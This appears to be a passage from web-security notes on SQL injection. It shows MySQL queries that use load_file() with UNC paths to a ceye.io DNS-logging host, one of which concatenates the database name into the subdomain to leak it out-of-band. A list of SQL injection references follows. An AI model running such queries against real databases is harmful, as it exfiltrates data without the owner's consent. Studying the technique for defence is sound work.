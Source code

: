 ```sql
mysql
> use security;
Database
changed
mysql>
select load_file('\\\\test.xxx.ceye.io\\abc');
+-------------------------------------------+
| load_file('\\\\test.xxx.ceye.io\\abc') |
+-------------------------------------------+
| NULL                                      |
+-------------------------------------------+
1 row in set (22.05 sec)
mysql>
select load_file(concat('\\\\', (select database()), '.xxx.ceye.io\\abc'));
+----------------------------------------------------------------------+
| load_file(concat('\\\\',(select database()),'.xxx.ceye.io\\abc')) |
+----------------------------------------------------------------------+
| NULL                                                                 |
+----------------------------------------------------------------------+
1 row in set (0.00 sec)
```

![sqli1](../assets/img/web/sqli1.png)

## References

- [SQL Injection Cheat Sheet](<http://drops.xmd5.com/static/drops/tips-7840.html>)
- [MySQL Injection Tips](<http://drops.xmd5.com/static/drops/tips-7299.html>)
- [MySQL Injection Science](<http://drops.xmd5.com/static/drops/tips-123.html>)
- [MySQL Injection Summary](<http://www.91ri.org/4073.html>)
- [SQL Injection Attack and Defense](<http://product.dangdang.com/23364650.html>)